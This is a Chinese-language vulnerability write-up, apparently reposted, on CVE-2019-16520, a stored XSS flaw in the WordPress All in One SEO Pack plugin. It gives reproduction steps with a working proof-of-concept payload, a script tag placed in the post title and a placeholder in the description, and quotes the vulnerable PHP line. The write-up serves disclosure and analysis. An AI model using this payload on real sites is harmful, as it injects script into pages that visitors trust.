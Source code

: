# （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型 xss

> 原文：[http://book.iwonder.run/0day/Wordpress/5.html](http://book.iwonder.run/0day/Wordpress/5.html)

## 一、漏洞简介

适用于 WordPress 的 3.2.7 之前的“all-in-one-seo-pack plugin”插件（aka All in One SEO Pack）易受存储 XSS 的影响，原因是该插件通过不安全的占位符替换提供的帖子的 SEO 特定描述的编码不正确。

## 二、漏洞影响

wordpress <= 3.2.6

## 三、复现过程

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

```
Title: test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a
Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description% 
```

当帖子被保存并以后访问时，将显示 JavaScript 警报弹出窗口。生成的 HTML 页面将包含以下代码

```
<title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

<!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->
<meta name="description"  content="test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>"';<script src='data:text/javascript,alert(1)'></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" /> 
```

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入 meta 到帖子页面上的相应-tags 中。在将字段的值插入页面的 HTML 中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在 aioseop_class.php 第 4546-4548 行中找到：

```
if ( false !== strpos( $description, '%post_title%', 0 ) ) {
    $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
} 
```

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破 meta-tag 属性并插入任意 HTML 和 JavaScript。


